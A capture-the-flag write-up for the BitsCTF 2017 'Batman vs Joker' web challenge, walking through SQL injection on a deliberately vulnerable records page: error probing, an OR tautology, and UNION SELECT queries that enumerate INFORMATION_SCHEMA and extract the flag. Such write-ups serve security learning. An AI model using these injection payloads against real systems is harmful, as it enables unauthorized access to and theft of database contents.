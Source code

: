 _[<<< Return to BitsCTF 2017 tasks and writeups](/CTF-Jeopardy/2017-bitsctf)_
# Batman vs Joker (Web, 30 points)

>Joker has left a message for you.
Your job is to get to the message asap. joking.bitsctf.bits-quark.org

This challenge looks like the "low" level of
[Damn Vulnerable Web Application](https://github.com/digininja/DVWA).

This website allows us to query the "CIA Ofiicial Records" (sic) by entering an id in the textbox.

```
>>> id: 1
First name:Harry
Surname: Potter
```

```
>>> id: 2
First name:Hermione
Surname: Granger
```

```
>>> id: 3
First name:Ronald
Surname: Weasley
```

```
>>> id: 4
First name:Joker
Surname: Joker
```

Now let's try some basic [SQL injections](https://owasp.org/www-community/attacks/SQL_Injection).

```
>>> id: 1'
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' Limit 1' at line 1
```

```
>>> id: 1' OR '1'='1'#
First name:Harry
Surname: Potter

First name:Hermione
Surname: Granger

First name:Ronald
Surname: Weasley

First name:Joker
Surname: Joker
```

Name of all the databases?

```
>>> id: ' UNION SELECT 1, schema_name FROM INFORMATION_SCHEMA.SCHEMATA#
First name:1
Surname: information_schema

First name:1
Surname: hack

First name:1
Surname: mysql

First name:1
Surname: performance_schema
```

Name of tables in the 'hack' database?

```
>>> id: ' UNION SELECT 1, table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='hack'#
First name:1
Surname: CIA_Official_Records

First name:1
Surname: Joker
```

Name of columns in the 'Joker' table?

```
>>> id: ' UNION SELECT 1, column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='Joker'#
First name:1
Surname: Flag

First name:1
Surname: HaHaHa
```

Let's grab the flag and the points!

```
>>> id: ' UNION SELECT Flag, HaHaHa from Joker#
First name:BITSCTF{wh4t_d03snt_k1ll_y0u_s1mply_m4k3s_y0u_str4ng3r!}
Surname: Enjoying the game Batman!!!
```
